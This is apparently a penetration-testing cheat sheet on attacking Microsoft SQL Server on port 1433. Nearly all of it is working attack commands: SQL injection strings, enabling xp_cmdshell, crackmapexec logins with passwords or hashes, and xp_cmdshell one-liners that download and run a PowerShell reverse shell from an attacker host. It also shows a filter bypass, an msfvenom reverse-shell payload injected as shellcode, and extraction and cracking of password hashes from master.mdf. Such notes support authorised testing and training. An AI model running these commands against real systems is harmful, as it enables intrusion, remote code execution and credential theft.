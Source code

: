 ```yaml
---
description: a' or 1=1-- | a' or '1'='1
---
```


# MSSQL 1433

Note that in order to be able to execute commands it's not only necessary to have **`xp_cmdshell`** **enabled**, but also have the **EXECUTE permission on the `xp_cmdshell` stored procedure**. You can get who (except sysadmins) can use **`xp_cmdshell`** with:

```sql
Use master
EXEC sp_helprotect 'xp_cmdshell'
```

Check if current user is sysadmin

```sql
SELECT is_srvrolemember('sysadmin');
```

a' UNION all SELECT null,2; EXEC .....

{% code overflow="wrap" %}
```sql
# mssql account
# Username + Password + CMD command
crackmapexec mssql -d <Domain name> -u <username> -p <password> -x "whoami"
# Username + Hash + PS command
crackmapexec mssql -d <Domain name> -u <username> -H <HASH> -X '$PSVersionTable'

# Check if xp_cmdshell is enabled
SELECT * FROM sys.configurations WHERE name = 'xp_cmdshell';

# This turns on advanced options and is needed to configure xp_cmdshell
sp_configure 'show advanced options', '1'
RECONFIGURE
#This enables xp_cmdshell
sp_configure 'xp_cmdshell', '1'
RECONFIGURE

#One liner
EXEC sp_configure 'Show Advanced Options', 1; RECONFIGURE; sp_configure 'xp_cmdshell', 1; RECONFIGURE;

# Quickly check what the service account is via xp_cmdshell
EXEC master..xp_cmdshell 'whoami'
# Get Rev shell
EXEC xp_cmdshell 'echo IEX(New-Object Net.WebClient).DownloadString("http://192.168.119.129:8000/rev.ps1") | powershell -noprofile'
or
EXEC xp_cmdshell 'powershell -c IEX(New-Object Net.WebClient).DownloadString(''http://192.168.119.173/rev.ps1'')'--
# try master..xp_cmdshell

# Bypass blackisted "EXEC xp_cmdshell"
'; DECLARE @x AS VARCHAR(100)='xp_cmdshell'; EXEC @x 'ping k7s3rpqn8ti91kvy0h44pre35ublza.burpcollaborator.net' —
```
{% endcode %}

#### CME

{% code overflow="wrap" %}
```
msfvenom -p windows/shell/reverse_tcp LHOST=192.168.119.173 LPORT=80 -e x86/shikata_ga_nai -i 7 -f raw -o shell.bin

crackmapexec mssql 10.0.5.1 -u Administrator -p P@ss123 --local-auth -M shellcode_inject -o PATH=/path/to/shell.bin

-H nthash
```
{% endcode %}

### db.mdf db account hash crack

{% embed url="https://blog.xpnsec.com/extracting-master-mdf-hashes/" %}
john --wordlist=/usr/share/wordlists/rockyou.txt hash
{% endembed %}

```powershell
git clone https://github.com/xpn/Powershell-PostExploitation   
pwsh
Add-Type -Path ./OrcaMDF.Framework.dll
Add-Type -Path ./OrcaMDF.RawCore.dll 
import-module ./Get-MDFHashes.ps1   
Get-MDFHashes -mdf ./master.mdf   
```

